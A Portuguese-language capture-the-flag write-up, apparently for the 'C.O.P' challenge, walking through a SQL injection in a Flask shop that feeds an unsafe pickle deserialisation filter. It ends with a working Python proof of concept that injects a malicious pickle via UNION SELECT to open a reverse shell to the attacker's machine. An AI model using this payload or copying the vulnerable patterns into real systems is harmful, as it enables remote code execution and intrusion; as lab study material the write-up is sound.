


# C. O. P

> O C.O.P (Culto dos Pickles) começou uma loja web para vender sua mercadoria. Acreditamos que os fundos estejam sendo usados para operações ilícitas de propaganda baseadas em pickles! Investigue o site e tente encontrar uma forma de interceptar a operação deles!

A descrição por si só dá uma dica muito importante para a resolução desse desafio.&#x20;

## Reconhecimento

Podemos baixar o código-fonte da aplicação e ver que se trata de uma aplicação web em Python utilizando Flask. Temos apenas dois endpoints, sendo que um trás a listagem dos produtos cadastrados:

<figure><figcaption><p>C. O. P - Página inicial da aplicação</p></figcaption></figure>

E o outro, `/view/:id` trás informações sobre um produto com base no id informado.

<figure><figcaption><p>C. O. P - Detalhes do produto</p></figcaption></figure>

Podemos começar analisando o código-fonte do último endpoint, visto que ele permite a entrada de dados.


```python
from flask import Blueprint, render_template
from application.models import shop

web = Blueprint('web', __name__)

...SNIP

@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))
```


Acima está o arquivo que define as rotas da aplicação. Observe que ao acessar a rota `/view`, a aplicação chama uma função `shop.select_by_id`, definida  no arquivo `models`:


```python
from application.database import query_db

class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```


Perceba que a aplicação está inserindo a entrada do usuário diretamente na query SQL, ou seja, podemos tentar injetar SQL. Ao enviar uma requisição ao endpoint `/view/1'`, a aplicação retorna um erro 500, o que possivelmente indica que a entrada foi injetada na query provocando um erro. Ao consultar `/view/1'--`, a aplicação não retorna erro algum, visto que a consulta foi processada da seguinte forma:

```sql
SELECT data FROM products WHERE id='1'--'
```

Isto é, fazendo uma consulta em produtos a qual o id do produto seja 1 e comentando o restante da query que é inserido pelo back-end. Porém, apenas com esse SQL injection não somos capazes de fazer nada. Vejamos como essa rota é renderizada no template:

<pre class="language-html" data-title="application/templates/item.html" data-overflow="wrap" data-line-numbers><code class="lang-html"><strong>...SNIP
</strong><strong>&#x3C;!-- Product section-->
</strong>&#x3C;section class="py-5">
    &#x3C;div class="container px-4 px-lg-5 my-5">
        &#x3C;div class="row gx-4 gx-lg-5 align-items-center">
             &#x3C;!-- repare nessa linha -->
            &#x3C;div class="col-md-6">&#x3C;img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." />&#x3C;/div>
            &#x3C;div class="col-md-6">
                &#x3C;h1 class="display-5 fw-bolder">{{ item.name }}&#x3C;/h1>
                &#x3C;div class="fs-5 mb-5">
                    &#x3C;span>£{{ item.price }}&#x3C;/span>
                &#x3C;/div>
                &#x3C;p class="lead">{{ item.description }}&#x3C;/p>
            &#x3C;/div>
        &#x3C;/div>
    &#x3C;/div>
&#x3C;/section>
SNIP...
</code></pre>

A instrução na linha destacada está utilizando uma funcionalidade de [filtro do Flask](https://flask.palletsprojects.com/en/2.3.x/templating/#registering-filters) que deve ser definida pela aplicação. A definição desse filtro pode ser encontrada no arquivo `app.py`:


```python
...SNIP
@app.template_filter('pickle')
def pickle_loads(s):
    return pickle.loads(base64.b64decode(s))
SNIP...
```


## Exploração

Perceba que o filtro definido é processado por uma função do [pickle](https://docs.python.org/pt-br/3/library/pickle.html), uma biblioteca de serialização do Python. A função é responsável por decodificar a entrada em base64 e então serializar ela através do pickle. Entretanto, buscando sobre essa biblioteca, foi possível [encontrar uma vulnerabilidade](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) nela que permite execução de código remotamente. Para isso, precisamos criar uma classe com o payload da RCE, usar a função `dumps` da biblioteca pickle para desserializar um objeto dessa classe e então passar esse objeto desserializado codificado em base64 para a aplicação.  A partir disso, podemos aproveitar vulnerabilidade de SQL injection para injetar o payload na requisição.

## Prova de Conceito


```python
import pickle
import requests
from base64 import b64encode, urlsafe_b64encode
import os

host = "http://cop.htb:1337" # troque pelo endereço do host vulnerável

class RCE:
    def __reduce__(self):
        ip = "127.0.0.1" # troque pelo seu endereço
        port = 1337 # troque por uma porta escutando em sua máquina
        reverse_shell = f"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{ip}\",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'"
        cmd = (f'echo "{b64encode(reverse_shell.encode()).decode()}" | base64 -d | sh')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE()) # serializando o objeto RCE com o pickle
    response = requests.get(url=f"{host}/view/' UNION SELECT \"{urlsafe_b64encode(pickled).decode()}\"--")
    print(response.text)
```


O script acima define uma classe RCE que, quando desserializada pelo pickle na aplicação vulnerável, realiza uma conexão de shell reversa. Dessa forma, podemos serializar um objeto dessa classe e tentar enviar ao endpoint vulnerável da aplicação. Abusando da falha de SQL injection, podemos criar um UNION SELECT com o payload, e ele será desserializado pela aplicação, resultando na conexão reversa à nossa máquina. Agora, com o shell, basta lermos o conteúdo do arquivo `flag.txt` para obter a flag.
